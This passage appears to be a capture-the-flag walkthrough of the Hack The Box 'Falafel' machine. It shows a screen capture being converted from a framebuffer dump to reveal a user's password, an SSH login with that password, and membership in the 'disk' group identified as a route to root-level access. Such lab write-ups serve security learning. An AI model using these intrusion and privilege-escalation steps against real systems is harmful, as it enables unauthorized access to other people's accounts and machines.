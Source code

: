 The _pnmtopng_ package is not installed by default on kali, so you might need to install it using the following command.

```text
apt-get install pnmtopng
```

Run the script to convert _fb0.raw_ to a png image.

```text
./raw2png 1176 885 < fb0.raw > fb0.png
```

Open up the image.

![](../images/max/661/1*j0XA1HTOcU8Ljbg6g5klXw.png)

We got lucky! It looks like we grabbed the screen where the _yossi_ user was changing his password to ‘_MoshePlzStopHackingMe!_’. Let’s try and SSH into _yossi’s_ account using this password.

```text
root@kali:~/Desktop/htb/falafel# ssh yossi@10.10.10.73
yossi@10.10.10.73's password:                                                        
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)                   
                                                                                     
 * Documentation:  https://help.ubuntu.com                                           
 * Management:     https://landscape.canonical.com                                   
 * Support:        https://ubuntu.com/advantage                                      
                                                                                     
0 packages can be updated.                                                           
0 updates are security updates.
```

We’re in! Run the _id_ command to view the real and effective user ids for the _yossi_ user.

```text
yossi@falafel:~$ id
uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)
```

The user is part of the group _disk_, which gives the user full access to any block devices contained within _/dev/_. Having access to this is almost equivalent to root access.

```text
yossi@falafel:~$ ls -la /dev/sda1
brw-rw---- 1 root disk 8, 1 Jan 30 19:49 /dev/sda1
```

